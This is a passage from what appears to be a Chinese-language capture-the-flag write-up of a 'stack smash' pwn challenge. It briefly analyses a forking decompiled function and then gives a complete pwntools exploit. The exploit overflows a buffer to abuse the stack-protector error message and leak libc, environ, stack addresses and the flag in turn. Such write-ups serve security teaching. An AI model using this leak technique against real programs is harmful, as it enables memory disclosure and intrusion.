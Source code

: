 sub_400A11函数

```C++
__int64 sub_400A11()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  v1 = fork();
  if ( v1 == -1 )
    err(1, "can not fork");
  return v1;
}
```

可以看到，fork了一个子进程，并且判断依据是v7的大小，也就是说整个程序可以崩溃3次
这姿势和题目我专门写了一篇，思路可以直接看[stack smash](https://n0vice.top/2020/04/09/Stack-smash/)

#### exp

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
#context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './pwn1' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=elf.libc
def exp():
    p.recvuntil("flag\n")
    payload = "a"*296 + p64(elf.got['puts'])
    p.sendline(payload)
    p.recvuntil("*** stack smashing detected ***: ")
    puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    libc_base = puts_addr - libc.sym['puts']
    log.success("puts_addr==>" + hex(puts_addr))
    log.success("libc_base==>" + hex(libc_base))
    environ = libc_base + libc.sym['environ']
    p.recvuntil("flag\n")
    payload = "a"*296 + p64(environ)
    p.sendline(payload)
    p.recvuntil("*** stack smashing detected ***: ")
    stack_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    log.success("stack_addr==>" + hex(stack_addr))
    flag = stack_addr - 0x168
    p.recvuntil("flag\n")
    payload = "a"*296 + p64(flag)
    p.sendline(payload)
    p.interactive()
exp()
```
